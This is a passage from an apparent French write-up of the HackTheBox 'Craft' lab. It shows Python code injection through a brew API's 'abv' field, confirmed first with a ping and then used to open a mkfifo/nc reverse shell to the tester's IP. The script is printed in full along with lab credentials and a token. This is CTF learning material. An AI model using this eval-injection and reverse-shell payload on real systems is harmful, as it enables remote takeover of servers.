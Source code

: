 - On a une injection une commande permettant de ping notre machine

```
POST /api/brew/ HTTP/1.1
Host: api.craft.htb
X-Craft-API-Token: eyJ0eXAiOiJKV1QiLCJhbGciOiJIUzI1NiJ9.eyJ1c2VyIjoiZGluZXNoIiwiZXhwIjoxNTcxMjQwMzA4fQ.giWh0XMoBiYQbIW7GgSBbGLEefBqkQeh2eVU1tXNB6E
Content-Length: 127
{
  "brewer": "test",
  "name": "test",
  "style": "test",
  "abv": "__import__('os').popen('ping -c 6 10.10.14.194').read()"
}
```

- On reçoit bien les ping

```
sudo tcpdump -s0 -n -i tun0 src 10.10.10.110
17:34:50.871352 IP 10.10.10.110 > 10.10.14.194: ICMP echo request, id 25627, seq 0, length 64
17:34:51.910586 IP 10.10.10.110 > 10.10.14.194: ICMP echo request, id 25627, seq 1, length 64
```

- On réussis à l'exploiter en reprenant le script https://gogs.craft.htb/Craft/craft-api/raw/master/tests/test.py

```python
#!/usr/bin/env python

import requests
import json

response = requests.get('https://api.craft.htb/api/auth/login',  auth=('dinesh', '4aUh0A8PbVJxgd'), verify=False)
json_response = json.loads(response.text)
token =  json_response['token']

headers = { 'X-Craft-API-Token': token, 'Content-Type': 'application/json'  }

# make sure token is valid
response = requests.get('https://api.craft.htb/api/auth/check', headers=headers, verify=False)
print(response.text)

# create a sample brew 
print("Create real ABV brew")
brew_dict = {}
brew_dict['abv'] = "__import__('os').popen('rm /tmp/f;mkfifo /tmp/f;cat /tmp/f|/bin/sh -i 2>&1|nc 10.10.14.229 7070 >/tmp/f').read()"
brew_dict['name'] = "bullshit"
brew_dict['brewer'] = "bullshit"
brew_dict['style'] = "bullshit"

json_data = json.dumps(brew_dict)
response = requests.post('https://api.craft.htb/api/brew/', headers=headers, data=json_data, verify=False)
print(response.text)
```
